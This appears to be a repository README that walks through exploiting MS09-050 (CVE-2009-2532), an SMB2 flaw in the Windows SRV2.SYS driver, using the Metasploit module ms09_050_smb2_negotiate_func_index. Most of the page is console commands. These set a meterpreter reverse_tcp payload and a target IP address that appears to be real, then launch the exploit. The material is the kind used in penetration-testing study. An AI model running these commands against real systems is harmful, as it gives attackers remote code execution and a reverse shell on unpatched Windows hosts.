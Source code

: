 # MS09-050

```C
This module exploits an out of bounds function table dereference in the SMB 
request validation code of the SRV2.SYS driver included with Windows Vista, 
Windows 7 release candidates (not RTM), and Windows 2008 Server prior to R2. 
Windows Vista without SP1 does not seem affected by this flaw.
```

Vulnerability reference:
 * [MS09-050](https://technet.microsoft.com/library/security/ms09-050)
 * [CVE-2009-2532](http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2009-2532)

## Usage
```C
msf > search MS09_050
msf > use exploit/windows/smb/ms09_050_smb2_negotiate_func_index 
msf exploit(ms09_050_smb2_negotiate_func_index) > options
msf exploit(ms09_050_smb2_negotiate_func_index) > set payload windows/meterpreter/reverse_tcp
msf exploit(ms09_050_smb2_negotiate_func_index) > set rhost 110.196.193.102
msf exploit(ms09_050_smb2_negotiate_func_index) > run
```

  

## load the module within the Metasploit console
[msf](https://www.rapid7.com/db/modules/exploit/windows/smb/ms09_050_smb2_negotiate_func_index)
```c
msf > use exploit/windows/smb/ms09_050_smb2_negotiate_func_index
msf exploit(ms09_050_smb2_negotiate_func_index) > show targets
    ...targets...
msf exploit(ms09_050_smb2_negotiate_func_index) > set TARGET <target-id>
msf exploit(ms09_050_smb2_negotiate_func_index) > show options
    ...show and set options...
msf exploit(ms09_050_smb2_negotiate_func_index) > exploit
```

## References
[MS09-050漏洞测试](http://edu.aqniu.com/group/30/thread/107)  
[MS09-050 vulnerability](https://www.youtube.com/watch?v=cytEOUQ6QsI)  



